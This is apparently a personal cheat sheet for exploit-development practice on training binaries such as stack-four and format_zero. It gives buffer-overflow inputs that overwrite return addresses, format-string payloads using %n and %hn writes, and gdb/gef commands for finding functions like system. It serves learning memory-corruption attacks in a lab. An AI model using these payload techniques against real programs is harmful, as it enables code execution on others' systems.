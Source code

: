 ##### Overfill a buffer with gets() or strcpy() or Environment Variable
```
$ python -c 'print "A"*(80) + "\x44\x05\x01\x00"' | ./stack-four
$ cat ~/128chars | ./stack-five
```
##### Works with sprintf() or gets()
```
# python -c 'print "%p"*10' > payload.txt
# gdb format_zero

r < ~/payload.txt
```
##### inside gdb.  Passing in arguments values ( for `scanf`, `strcpy` etc )
```
r payload.txt

run $(python -c 'print "A" * 20')

run $(python -c 'print "%268x" + "\x41\x41\x41\x41"')

run `printf "\x54\x10\x60"`%.fx%4\$hn%.ex%5\$hn

run $(echo -e "\x54\x10\x60\x00%x%x%x%x%x%x%x%x%x%x%x%n.")
```
##### Troubleshooting python3 buffer filling
When you hit a non-readable ASCII character. Reference [here][ba369178].

  [ba369178]: https://stackoverflow.com/questions/42884251/why-is-the-output-of-print-in-python2-and-python3-different-with-the-same-string "python_2_and_3_byte_differences"

### Understanding where you are
`main info sec`
##### whatis
```
gef> whatis 0x000106d8
type = int

  [961d8f92]: https://stackoverflow.com/questions/42884251/why-is-the-output-of-print-in-python2-and-python3-different-with-the-same-string "python3_byte_str"

gef> whatis "hello"
type = char [6]

```
#### Shared Libraries
```
info sharedlibrary
```
#### Locations of system calls
```
gef> x/x strcpy
0xffffb7f72050 <strcpy>:	0xf3
gef> x/x system
0xffffb7f9fee4 <system>:	0xff
gef> x/x printf
0xffffb7faafa4 <printf>:	0xff
```
#### Set and Print Variable
```
gef> p getenv ("PATH")
'getenv' has unknown return type; cast the call to its declared return type

gef> p (char *) getenv ("PATH")
$8 = 0xffffffffffa2 "/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
```
